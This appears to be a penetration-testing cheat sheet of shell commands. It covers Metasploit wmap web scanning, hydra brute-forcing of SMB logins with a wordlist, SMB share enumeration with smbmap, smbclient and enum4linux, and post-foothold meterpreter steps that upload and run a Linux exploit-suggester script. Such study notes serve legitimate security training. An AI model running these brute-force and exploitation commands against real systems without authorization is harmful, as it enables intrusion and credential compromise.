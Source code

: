 ```shell
service postgresql start
msfconsole
load wmap
wmap_sites -a http://<ip-target>
wmap_targets -t http://<ip-target>
wmap_sites -l
wmap_run -h
wmap_run -t
wmap_run -e
wmap_vuln -l (show the list of all vulnerability)
```
> it is web application vulnerabilty scanner

#### SAMBA Commands:

```Shell
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip-address> smb
```

> Brute force samba command.

```Shell
smbmap -H <ip-address> -u <user-name> -p password1
```

> List downs all the shares of the given user.

```Shell
smbclient //<ip-address>/<share-name> -U admin 
```

> This command be used to connect to a particular share.

```Shell
enum4linux -a <ip-address>
```

> Basic target information.

```Shell
enum4linux -a -u <user-name> -p <password> <ip-address>
```

> For a particular user.

#### Linux Kernel Exploits:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.

```meterpreter
upload les.sh
shell
/bin/bash -i
chmod +x les.sh
./les.sh
```
